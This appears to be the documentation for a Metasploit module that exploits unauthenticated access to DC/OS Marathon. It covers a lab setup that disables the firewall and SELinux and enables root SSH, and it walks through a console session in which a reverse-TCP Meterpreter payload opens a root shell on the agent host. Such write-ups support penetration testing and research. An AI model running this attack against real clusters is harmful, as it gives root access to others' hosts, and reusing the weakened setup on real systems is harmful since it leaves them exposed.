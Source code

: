 ## Vulnerable Application
Utilizing the DCOS Cluster's Marathon UI, an attacker can create
a docker container with the '/' path mounted with read/write
permissions on the host server that is running the docker container.
As the docker container executes command as uid 0 it is honored
by the host operating system allowing the attacker to edit/create
files owed by root. This exploit abuses this to creates a cron job
in the '/etc/cron.d/' path of the host server.

*Notes: The docker image must be a valid docker image from
hub.docker.com. Further more the docker container will only
deploy if there are resources available in the DC/OS

## DCOS
This Exploit was tested with CentOS 7 as the host operating system for
the 2 services of the DCOS cluster. With DCOS version 1.7 and 1.8, with
Default 'custom' installation for on site premise setup. Only the Install
part of the DCOS guide was completed, the system hardening and securing
your cluster section where skipped. This is to represent a 'Default' install
with a system admin conducting hasty deployments taking no thought about security.


## To Setup Your Cluster
I recommend doing a 'on-premise'/custom
cluster. https://dcos.io/docs/1.8/administration/installing/custom/
Create a virtual CentOS machine, install requirements base on the above
guide.

```bash
# The TLDR from the above guide
sudo systemctl stop firewalld && sudo systemctl disable firewalld
sudo yum install -y tar xz unzip curl ipset ntp
sudo systemctl start ntpd
sudo systemctl enable ntpd
sudo sed -i s/SELINUX=enforcing/SELINUX=permissive/g /etc/selinux/config && \
   sudo groupadd nogroup && sudo reboot
```

Install a supported version of docker on the CentOS systems
https://dcos.io/docs/1.8/administration/installing/custom/system-requirements/install-docker-centos/

```bash
# The TLDR of the above guide
sudo yum -y remove docker docker-common container-selinux
sudo yum -y remove docker-selinux
sudo yum install -y yum-utils
sudo yum-config-manager \
   --add-repo \
   https://docs.docker.com/engine/installation/linux/repo_files/centos/docker.repo
sudo yum-config-manager --enable docker-testing
sudo yum makecache fast
sudo yum -y install docker-engine-1.11.2
sudo systemctl start docker
sudo systemctl enable docker
sudo echo overlay > /etc/modules-load.d/overlay.conf
sudo reboot
```

Once the CentOS machine has rebooted, edit the systemctl
service file for docker and change the ExecStart- line to
`ExecStart=/usr/bin/docker daemon --storage-driver=overlay -H fd://`
restart the docker service and verify it is running.
lastly generate ssh rsa keys for authentication. And update the
/etc/ssh/sshd_config file to support root login.

```bash
ssh-keygen -t rsa -b 4096
# Press enter until complete, DO NOT PUT A PASSWORD.
cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa # save the output you will need it for later
rm ~/.ssh/id_rsa # before doing this make sure you have saved a copy for later
```

Shut down the CentOS vm, take a snapshot. (This will be your base)
clone the VM 2 times. One will be DCOS-Master, the Other DCOS-Agent.
Start the DCOS-Master and DCOS-Agent virtual machines You just cloned.
Login and get their current IP address.
* Note: I recommend giving them static IPs if you have further use for the cluster.

From here use another Linux machine with docker installed to finish
the installation process. I used an Ubuntu machine with docker installed.

Follow the custom CLI guide for creating the required files in
the genconf folder.
https://dcos.io/docs/1.8/administration/installing/custom/cli/

Example genconf/config.yaml
```
---
agent_list:
- 192.168.0.10
bootstrap_url: file:///opt/dcos_install_tmp
cluster_name: DCOS
exhibitor_storage_backend: static
ip_detect_filename: /genconf/ip-detect
master_discovery: static
master_list:
- 192.168.0.9
process_timeout: 10000
resolvers:
- 8.8.8.8
- 8.8.4.4
ssh_port: 22
ssh_user: root
```
Example genconf/ip-detect
```bash
#!/usr/bin/env bash
set -o nounset -o errexit
export PATH=/usr/sbin:/usr/bin:$PATH
ip=$(ip addr show ens33)
echo $( echo $ip | grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | head -1)
```

place your id_rsa ssh key into the genconf file and rename the
file to ssh_key and `chmod 0600 genconf/ssh_key`

Deploying the cluster
in the folder containing the genconf folder do the following.
NOTE: if following the cli install from DCOS itself, it will fail
if you do --install-prereqs. It will install an unsupported version of
docker.

```bash
curl -O https://downloads.dcos.io/dcos/stable/dcos_generate_config.sh
chmod +x dcos_generate_config.sh
sudo ./dcos_generate_config.sh --genconf
sudo ./dcos_generate_config.sh --preflight
# If all preflight checks pass
sudo ./dcos_generate_config.sh --deploy
# get a cup of coffie
# wait a minute or two after deploy completes
sudo bash dcos_generate_config.sh --postflight
```

If all is passing navigate to http://[master_ip]:8080/
You should see the Marathon UI web application.

# Exploitation
This module is designed for the attacker to leverage, creation of a
docker container with out authentication through the DCOS Marathon UI
to gain root access to the hosting server of the docker container
in the DCOS cluster.

## Options
- DOCKERIMAGE is the hub.docker.com docker container image you are wanting to have the DCOS Cluster to deploy for this exploit.
- TARGETURI this is the path to make the Marathon UI web request to. By default this is /v2/apps
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.
- CONTAINER_ID is optional if you want to have your container docker have a human readable name else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/dcos_marathon
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs
- [ ] After a minute a session should be opened from the agent server

## Scenarios
```
msf > use exploit/linux/http/dcos_marathon
msf exploit(dcos_marathon) > set RHOST 192.168.0.9
RHOST => 192.168.0.9
msf exploit(dcos_marathon) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(dcos_marathon) > set LHOST 192.168.0.100
LHOST => 192.168.0.100
msf exploit(dcos_marathon) > set verbose true
verbose => true
msf exploit(dcos_marathon) > check
[*] 192.168.0.9:8080 The target appears to be vulnerable.
msf exploit(dcos_marathon) > exploit

[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[*] The docker container is running, removing it
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (39690 bytes) to 192.168.0.10
[*] Meterpreter session 1 opened (192.168.0.100:4444 -> 192.168.0.10:54468) at 2017-03-01 14:22:02 -0500
[+] Deleted /etc/cron.d/FOWkTeZL
[+] Deleted /tmp/TIWpOfUR

meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 3.10.0-327.36.3.el7.x86_64 #1 SMP Mon Oct 24 16:09:20 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
